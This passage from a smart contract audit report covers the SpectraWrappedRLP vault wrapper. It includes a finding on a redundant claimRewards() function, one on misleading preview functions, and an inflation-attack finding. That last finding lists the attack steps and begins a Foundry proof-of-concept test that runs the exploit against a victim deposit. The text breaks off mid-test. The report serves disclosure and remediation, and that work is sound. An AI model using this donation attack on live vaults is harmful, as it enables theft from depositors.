 As the `SpectraWrappedRLP` contract is already upgradeable, its implementation can be updated in the future to accommodate the required reward-claiming mechanism once the Resolve protocol releases its specifications. Therefore, the `claimRewards()` function in its current form is redundant and introduces avoidable risks.

Therefore it is recommended to remove the `claimRewards()` function entirely until the Resolv protocol finalizes and releases its reward-claiming mechanism. This will eliminate the unnecessary centralization risk. Once the mechanism is available, the `SpectraWrappedRLP` contract can be upgraded to implement a secure and specific solution for claiming rewards.





# [L-02] Misleading preview functions

`previewDeposit`, `previewMint`, `previewWithdraw`, and `previewRedeem` all handle USDC-to-shares conversion or vice versa. These functions could mislead users if the returned values are used with `wrap` and `unwrap`. Consider disabling these functions, as `previewWrap` and `previewUnwrap` are already available.





# [L-03] Inflation attack

Although `SpectraWrappedRLP` uses the OZ `ERC4626Upgradeable` as a base for its implementation, the use of the default `1 virtual share` and `1 virtual asset` is insufficient to prevent an inflation attack.

The code also uses `balanceOf(address(this))` to retrieve the `vaultShare` balance, enabling the possibility of donations.

This attack can be profitable for the attacker, as demonstrated below:

1. Initially, the pool has 0 shares and 0 assets.
2. The attacker mints 1000 wei shares.
3. The attacker donates 1000 RLP to the vault.
4. The share price is now inflated. At the cost of approximately 1 RLP, the attacker can profit from the rounding errors in the calculation of other users’ share deposits. The profit can be estimated as `amount % 1 RLP` from users deposits.

**The first test example:**

```solidity
    function test_inflation_attack() public virtual {
        address user = address(0x123);
        address victim = address(0x124);
        
        _ibt_deposit(user, 1000e18 + 1000);
        _ibt_deposit(victim, 40e18);
        
        _approve(_vaultShare_, user, _wrapper_, 1000);
        _approve(_vaultShare_, victim, _wrapper_, 40e18);

        vm.startPrank(user);
        // mint 1000 shares
        ISpectra4626Wrapper(_wrapper_).wrap(1000, user);
        // donate 1000 RLP
        IERC20(_vaultShare_).transfer(_wrapper_, 1000e18);

        vm.startPrank(victim);
        ISpectra4626Wrapper(_wrapper_).wrap(199e17, victim);
        
        // attacker almost even after first deposit
        uint256 attackerBalance = ISpectra4626Wrapper(_wrapper_).balanceOf(user);
        console.log("Attacker balance: %d, ~999.9 RLP", ISpectra4626Wrapper(_wrapper_).previewUnwrap(attackerBalance));
```